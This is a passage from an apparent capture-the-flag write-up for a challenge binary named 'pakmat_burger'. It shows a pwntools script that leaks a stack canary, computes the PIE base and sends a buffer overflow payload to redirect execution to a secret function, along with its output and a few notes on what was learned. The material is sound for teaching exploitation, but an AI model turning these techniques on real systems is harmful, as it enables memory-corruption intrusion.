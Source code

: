```python

canary = int(io.recv(18).decode(),16)
log.info("CANARY: " + hex(canary))

elf.address = main_addr - elf.symbols.main
log.info("PIE: " + hex(elf.address))
io.sendlineafter(b"enter the secret message:",secret)
io.sendlineafter(b"order?",b"abcd")

secret_order = elf.symbols.secret_order

payload = b"A" * 0x25 + p64(canary) + b"B" * 8 + p64(secret_order + 5)

io.sendlineafter(b": ", payload)
io.interactive()
```

Output
```python
$ python exploit.py 
[+] Starting local process './pakmat_burger': pid 45526
[*] main_addr: 0x55694acbe374
[*] CANARY: 0xfe2644d1c4032a00
[*] PIE: 0x55694acbd000
[*] Switching to interactive mode
flag{fake}Welcome to Pak Mat Burger!
```

## Conclusion
- I learnt how to
	- finding canary value
	- bypass stack canary 
	- find PIE base address
- progress during the competition
	- I find the secret message which is '8d7e88a8'
	- Took me ages to finish this chal :< 
	- Tq Wargames for this amazing challenge

